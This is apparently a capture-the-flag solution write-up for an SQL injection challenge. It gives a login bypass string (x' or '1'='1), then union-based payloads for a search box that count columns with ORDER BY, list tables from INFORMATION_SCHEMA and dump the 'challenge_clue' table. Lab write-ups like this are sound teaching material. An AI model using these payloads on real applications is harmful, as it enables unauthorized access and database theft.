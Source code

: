 # Solution to the SQL injection challenge

## Login Page(index.php)
The login page has a standard SQL Injection vulnerability. In the input fields the string that needs to be input is the x' or '1'='1
The final query that way will be:-  SELECT id FROM users WHERE password = 'x' or '1'='1' AND username = 'x'or '1'='1';

In order to get the flag there is a search box provided. Here union based sql query is to be used. The rule in union based sql query is that the both the queries should have the same number of columns.

NOTE: You will have to figure out which style of comments is being used. It can be either # or -- (with space at the end)
 
1. We first need to find out how many columns are present in the previous select statement. This can be done by using order by. 
   a. Start with ' order by 1-- and keep increasing the number till it fails. It fails at ' order by 4-- indicating that the select statement has 3 columns.

2. Next step is to get a list of the tables inside the database. We will construct our own query based on the information we found out. The query will be:- 
' union select 1,1,table_name from INFORMATION_SCHEMA.TABLES-- 
(You will notice that there is a table with the name 'challenge_clue', looks obvious that this is where we will find our flag)

3. Similarly construct a query for getting the contents out of the challenge_clue table. The query will be:-
' union select * from challenge_clue-- 

## Search Box – Get table names
**Search Input:** <code>' UNION ALL SELECT table_name, 1, 1 FROM information_schema.tables-- </code> (include the space at the end)

## Search Box – Get challenge clue
**Search Input:** <code>' UNION ALL SELECT *, 1 FROM challenge_clue -- </code> (include the space at the end)